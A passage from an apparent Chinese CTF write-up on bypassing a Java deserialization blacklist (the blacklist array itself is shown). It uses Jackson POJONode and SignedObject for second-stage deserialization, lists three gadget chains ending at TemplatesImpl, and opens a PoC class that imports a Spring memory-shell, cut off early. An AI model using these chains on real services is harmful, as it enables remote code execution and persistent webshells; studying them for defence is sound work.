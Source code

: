 禁用了这些关键字

```plain
private static final String[] blackList = new String[]{"AbstractTranslet", "Templates", "TemplatesImpl", "javax.management", "swing", "awt", "fastjson"};
```

那么接下来就是来看怎么打反序列化了，存在以上黑名单而且发现只有一个 jackson 依赖可以利用，JDK 自带的`TemplatesImpl`​也被过滤了，所以想到二次反序列化，那么问题就变成如何触发 getter 了

### 二次反序列化

上面也讲到存在 jackson 关键依赖，所以我们就可以用 jackson 中的`POJONode`​来调用 getter 方法来触发 SignedObject 的二次反序列化

但是这里遇到一个问题，二次打什么链呢？这里其实就是归结于如何调用 getter 的方法了，而这里的环境都是自带的 jdk+spring，所以说多也不算多说少也不算少的方法，以下就写出方式的调用链 (其实就是 1 2 3 排列组合为 113 223 123 这样子)，就写出一种 EXP

#### 方法一

```plain
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法二

```plain
BadAttributeValueExpException#readObject() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法三

```plain
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString()  -> TemplatesImpl#getOutputProperties()
```

```plain
import MenShell.SpringMemShell;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class SignedObjectBAVEPoC {
    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
```